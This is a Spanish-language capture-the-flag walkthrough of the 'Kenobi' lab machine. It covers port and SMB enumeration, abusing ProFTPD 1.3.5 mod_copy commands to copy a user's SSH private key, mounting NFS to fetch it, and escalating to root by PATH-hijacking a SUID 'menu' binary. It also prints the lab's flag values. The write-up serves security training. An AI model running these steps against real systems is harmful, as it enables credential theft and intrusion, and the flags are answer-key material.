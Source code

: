 # Kenobi

## Escaneos de puertos

```bash
nmap ip
```

- \-sV: para saber las versiones de los servicios
- \-O: para saber el SO

![image](1.png)

```bash
nmap -p PUERTO --script=SCRIPT1,SCRIPT2 IP
```

* \-p: Indica el puerto donde se escanea
* \--script: lo que hace es ejecutar un script (puedes poner más de un script separándolo con comas como se ve arriba).
* SCRIPT1 (smb-enum-shares.nse): Enumera los recursos compartidos (shares) disponibles en el servidor SMB.
* SCRIPT2 (smb-enum-users.nse): Intenta enumerar los usuarios en el servidor SMB.

![image](2.png)

## Accedemos a los recursos compartidos SMB de un servidor remoto

```bash
smbclient //Ruta
```

* smbclient: es un cliente en línea de comandos para acceder a recursos compartidos en servidores SMB (Windows / Linux con Samba)
* //10.10.143.215/anonymous: en este caso esta sería la ruta donde se encuentra los recursos compartidos. Donde `10.10.143.215` es la ip del servidor SMB y `anonymous` es el nombre del recurso que queremos acceder.

![image](3.png)

## Obtener versión de ProFtpd

Para ello ponemos en escucha en el puerto 21 que sería el ftp de esta maquina y obtenemos la versión.

```bash
nc IP PUERTO
```

* IP (10.10.143.215): IP del servidor
* PUERTO (21): Puerto del protocolo

![image](4.png)

## Buscar Exploits para ProFtpd 1.3.5

Para ello usamos el comando searchsploit y buscamos por el nombre del software mas la versión:

```bash
searchsploit SOFTWARE VERSION
```

* SOFTWARE (ProFtpd)
* VERSION (1.3.5)

![image](5.png)

## Copiamos el id_rsa

Para ello volvemos a poner en escucha el puerto ftp y ponemos los siguientes comandos.

`SITE CPFR /home/kenobi/.ssh/id_rsa`
`SITE CPTO /var/tmp/id_rsa`

* SITE: extensión de comandos FTP que permite ejecutar comandos específicos del servidor.
* CPFR: Significa **Copy From Remote**.
* CPTO: Significa **Copy To Remote**.

![image](6.png)

Lo que hemos hecho anteriormente es para copiar el archivo id_rsa del servidor y lo que vamos hacer ahora es pegar el archivo id_rsa en lo que hemos montado:

```bash
mkdir /mnt/kenobiNFS  
mount 10.10.143.215:/var /mnt/kenobiNFS  
ls -la /mnt/kenobiNFS
```

```bash
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.143.215
```

Una vez creado la estructura y haber copiado el archivo entramos por ssh y buscamos la flag que se encuentra en `/home/kenobi/user.txt` esto nos da la siguiente flag:

`d0b0f3f53b6caa532a83915e19224899`

![image](7.png)

## Escala de privilegios

```bash
find / -perm -u=s -type f 2>/dev/null
```

* `find /`:   Busca en todo el sistema de archivos, comenzando desde el directorio raíz (`/`).    
 *  `-perm -u=s`:      La opción `-perm` permite buscar archivos con permisos específicos.    
    - `-u=s:` Significa que el propietario del archivo tiene el **bit setuid** activado.
*  `-type f`:  Solo busca **archivos regulares** (no directorios, enlaces simbólicos, etc.).    
*  `2>/dev/null`: Redirige los **errores** estándar a `/dev/null`, lo que significa que cualquier mensaje de error (por ejemplo, permisos denegados) no se mostrará en la salida.    

Ahora ponemos los siguientes comando que lo que hace es ponernos como administrador y entramos en la shell del servidor con permisos de root 

```bash
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

* `echo /bin/sh > curl`: Crea archivo `curl` con ruta a shell.
* `chmod 777 curl`: Da permisos completos al archivo `curl`.
* `export PATH=/tmp:$PATH`: Agrega `/tmp` al `PATH` para ejecutar `curl`
* `/usr/bin/menu`: Ejecuta `menu`, posiblemente elevando privilegios a root.

Entramos en el archivo /root/root.txt y hay encontraremos la ultima flag que sería esta:

`177b3cd8562289f37382721c28381f02`

![image](8.png)